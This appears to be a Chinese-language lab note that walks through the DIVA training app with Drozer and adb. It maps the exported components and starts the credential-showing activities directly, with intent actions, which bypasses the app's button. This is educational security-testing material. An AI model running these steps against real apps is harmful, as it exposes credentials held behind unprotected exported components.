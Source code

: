 ```yaml
---
title: Test DIVA - activity exported
tags: [Android, Drozer]

category: "Tools/Others/Android Related/Drozer/Test DIVA"
---
```


* DIVA - [Download](https://payatu.com/wp-content/uploads/2016/01/diva-beta.tar.gz)

# Test DIVA - activity exported
<!-- more -->
參考[^csdn-diva-1][^安全客-diva-1][^安全客-diva-2][^hacktricks-diva-sieve]
1. 起手式 - 確認App資訊
    ```bash
    dz> run app.package.list -f diva
    Attempting to run shell module
    jakhar.aseem.diva (Diva)
    
    dz> run app.package.info -a jakhar.aseem.diva
    Attempting to run shell module
    Package: jakhar.aseem.diva
      Application Label: Diva
      Process Name: jakhar.aseem.diva
      Version: 1.0
      Data Directory: /data/user/0/jakhar.aseem.diva
      APK Path: /data/app/~~ieYmYeSxvDRbS7R8da3n_g==/jakhar.aseem.diva--xnWMS5i2UVEuuoE1JHskg==/base.apk
      UID: 10282
      GID: [3003]
      Shared Libraries: [/system/framework/android.test.base.jar, /system/framework/org.apache.http.legacy.jar]
      Shared User ID: null
      Uses Permissions:
      - android.permission.WRITE_EXTERNAL_STORAGE
      - android.permission.READ_EXTERNAL_STORAGE
      - android.permission.INTERNET
      - android.permission.POST_NOTIFICATIONS
      - android.permission.ACCESS_MEDIA_LOCATION
      - android.permission.READ_MEDIA_AUDIO
      - android.permission.READ_MEDIA_VIDEO
      - android.permission.READ_MEDIA_IMAGES
      Defines Permissions:
      - None

    dz> run app.package.attacksurface jakhar.aseem.diva
    Attempting to run shell module
    Attack Surface:
      3 activities exported
      0 broadcast receivers exported
      1 content providers exported
      0 services exported
        is debuggable
    ```
    package name: jakhar.aseem.diva
    attack surface: activities exported/content providers exported/is debuggable
2. 確認activiy的資訊
    ```bash
    dz> run app.activity.info -a jakhar.aseem.diva
    Attempting to run shell module
    Package: jakhar.aseem.diva
      jakhar.aseem.diva.MainActivity
        Permission: null
      jakhar.aseem.diva.APICredsActivity
        Permission: null
      jakhar.aseem.diva.APICreds2Activity
        Permission: null
    ```
    目前有兩個被export的activity，分別啟動後如下
    ```bash
    dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICredsActivity
    ```
    ![Screenshot_20240604-155745](https://hackmd.io/_uploads/By3VCB340.png =200x)

    ```bash
    dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICreds2Activity
    ```
    ![Screenshot_20240604-161940](https://hackmd.io/_uploads/ryTHAS3EA.png =200x)
    按照[^安全客-diva-2]的說明，這是==9.Access Control Issue - Part 1==題目的畫面，原本的設想是不要按`VIEW API CREDENTIALS`這個按鈕也可以取得上面的機敏資料
    
## 另外一種解法
按照[^安全客-diva-2]作者用另外一種方式去load這個activity，先看AndroidManifest.xml，當中有特別寫到這個activity是用intent-filter當作這個activity的類似保護的東西
```xml
<activity android:label="@string/apic_label" android:name="jakhar.aseem.diva.APICredsActivity">
    <intent-filter>
        <action android:name="jakhar.aseem.diva.action.VIEW_CREDS"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
<activity android:label="@string/apic2_label" android:name="jakhar.aseem.diva.APICreds2Activity">
    <intent-filter>
        <action android:name="jakhar.aseem.diva.action.VIEW_CREDS2"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
```
會發現前面找到的兩個activity都出現在這邊，那是否我可以直接用adb，啟動這個activity，並且給予他指定的intent，答案是肯定的
```bash
$ adb shell am start -n jakhar.aseem.diva/.APICredsActivity -a jakhar.aseem.diva.action.VIEW_CREDS
Starting: Intent { act=jakhar.aseem.diva.action.VIEW_CREDS cmp=jakhar.aseem.diva/.APICredsActivity }
$ adb shell am start -n jakhar.aseem.diva/.APICreds2Activity -a jakhar.aseem.diva.action.VIEW_CREDS2
Starting: Intent { act=jakhar.aseem.diva.action.VIEW_CREDS2 cmp=jakhar.aseem.diva/.APICreds2Activity }
```
`am start`: 啟動一個activity
`-n <package name + /. + activity class name>`: 指定哪一個activity
`-a <specified intent>`: 指定的 action，用於告訴應用程式以特定方式處理這個啟動動作

按照上面的指示，就會出現剛剛一樣的畫面了
# Reference
[^csdn-diva-1]:[DIVA靶場測試APP客戶端不規範項（一）](https://blog.csdn.net/weixin_44309905/article/details/123764180)
[^hacktricks-diva-sieve]:[Drozer Tutorial](https://book.hacktricks.xyz/v/cn/mobile-pentesting/android-app-pentesting/drozer-tutorial)
[^安全客-diva-1]:[【技術分享】Android App常見安全問題演練分析系統-DIVA-Part1](https://www.anquanke.com/post/id/84603)
[^安全客-diva-2]:[【技術分享】Android App常見安全問題演練分析系統-DIVA-Part2](https://www.anquanke.com/post/id/86057)